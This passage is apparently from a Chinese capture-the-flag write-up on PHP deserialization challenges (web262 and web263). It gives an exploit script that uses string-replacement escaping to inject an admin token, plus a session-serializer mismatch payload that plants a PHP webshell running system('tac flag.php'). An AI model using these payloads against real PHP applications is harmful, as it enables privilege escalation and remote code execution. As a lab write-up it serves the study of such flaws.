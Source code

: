 最后的exp

```php
<?php
error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f ="1";
$m = "2";
$t = 'fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}';


$msg = new message($f,$m,$t);
$umsg = str_replace('fuck', 'loveU', serialize($msg));
echo $umsg;

var_dump(unserialize($umsg));
```



## web263



存在一个源码泄露www.zip,查看关键代码

session反序列化的基础知识

```
php引擎的存储格式是键名|serialized_string，而php_serialize引擎的存储格式是serialized_string。如果程序使用两个引擎来分别处理的话就会出现问题

session.serialize_handler( 5.5.4前默认是php；5.5.4后改为php_serialize)存在以下几种

    php_binary 键名的长度对应的ascii字符+键名+经过serialize()函数序列化后的值
    php 键名+竖线（|）+经过serialize()函数处理过的值
    php_serialize 经过serialize()函数处理过的值，会将键名和值当作一个数组序列化

```

exp

```php
<?php
class User{
    public $username = 'a.php';
    public $password = '<?php system("tac flag.php");?>';
    public $status='a';

}
$a=new User();
echo base64_encode('|'.serialize($a));
```
